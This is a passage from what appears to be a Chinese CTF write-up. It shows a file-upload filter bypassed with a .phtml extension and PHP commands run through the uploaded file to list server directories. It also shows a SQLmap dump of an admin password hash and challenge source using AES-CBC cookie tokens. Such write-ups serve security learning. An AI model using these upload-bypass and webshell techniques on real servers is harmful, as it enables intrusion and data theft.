 上传成功，试了.php345 .inc .phtml .phpt .phps 最后.phtml可以解析，其他的都不行 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170318211057164?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170318211215820?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></img></br></br></img></br></br></img></br></br></br></p>
<pre class="prettyprint"><code class=" hljs scss"><span class="hljs-function">print_r(<span class="hljs-function">scandir(“/opt/lampp/htdocs”)</span>)</span>; 
echo <span class="hljs-function">exec(<span class="hljs-string">'pwd'</span>)</span>;<span class="hljs-comment">//查看当前文件路径</span>
<span class="hljs-function">print_r(<span class="hljs-function">scandir(<span class="hljs-string">'../../'</span>)</span>)</span></code></pre>
<h1 id="be-admin">Be admin</h1>
<p>有时候看见密码的题目都不想做，太麻烦 <br>
利用SQLmap跑了一遍跑出了用户名及密码加密过后的值</br></p>
<pre class="prettyprint"><code class=" hljs asciidoc"><span class="hljs-attribute">[1 entry]</span>
<span class="hljs-code">+---------+</span>----------<span class="hljs-code">+-------------------------------------------------------------------+</span>
<span class="hljs-header">| isadmin | username | encrypted_pass                                                    |
+---------+----------+-------------------------------------------------------------------+</span>
<span class="hljs-header">| 1       | admin    | aVZ1c2VkQnk0ZG1pbiEhIV+W2coxQmZQWMLGaWZuItWr+E26IKb1OFh4Shf/fNSQ  |
+---------+----------+-------------------------------------------------------------------+</span></code></pre>
<p>扫描目录得到源码</p>
<pre class="prettyprint"><code class=" hljs xml"><span class="php"><span class="hljs-preprocessor">&lt;?php</span>
error_reporting(<span class="hljs-number">0</span>);
define(<span class="hljs-string">"SECRET_KEY"</span>, <span class="hljs-string">"......"</span>);
define(<span class="hljs-string">"METHOD"</span>, <span class="hljs-string">"aes-128-cbc"</span>);

session_start();

<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">get_random_token</span><span class="hljs-params">()</span>{</span>
    <span class="hljs-variable">$random_token</span>=<span class="hljs-string">''</span>;
    <span class="hljs-keyword">for</span>(<span class="hljs-variable">$i</span>=<span class="hljs-number">0</span>;<span class="hljs-variable">$i</span>&lt;<span class="hljs-number">16</span>;<span class="hljs-variable">$i</span>++){
        <span class="hljs-variable">$random_token</span>.=chr(rand(<span class="hljs-number">1</span>,<span class="hljs-number">255</span>));
    }
    <span class="hljs-keyword">return</span> <span class="hljs-variable">$random_token</span>;
}

<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">get_identity</span><span class="hljs-params">()</span>
{</span>
    <span class="hljs-keyword">global</span> <span class="hljs-variable">$defaultId</span>;
    <span class="hljs-variable">$j</span> = <span class="hljs-variable">$defaultId</span>;
    <span class="hljs-variable">$token</span> = get_random_token();
    <span class="hljs-variable">$c</span> = openssl_encrypt(<span class="hljs-variable">$j</span>, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, <span class="hljs-variable">$token</span>);
    <span class="hljs-variable">$_SESSION</span>[<span class="hljs-string">'id'</span>] = base64_encode(<span class="hljs-variable">$c</span>);
    setcookie(<span class="hljs-string">"ID"</span>, base64_encode(<span class="hljs-variable">$c</span>));
    setcookie(<span class="hljs-string">"token"</span>, base64_encode(<span class="hljs-variable">$token</span>));
    <span class="hljs-keyword">if</span> (<span class="hljs-variable">$j</span> === <span class="hljs-string">'admin'</span>) {
        <span class="hljs-variable">$_SESSION</span>[<span class="hljs-string">'isadmin'</span>] = <span class="hljs-keyword">true</span>;
    } <span class="hljs-keyword">else</span> <span class="hljs-variable">$_SESSION</span>[<span class="hljs-string">'isadmin'</span>] = <span class="hljs-keyword">false</span>;
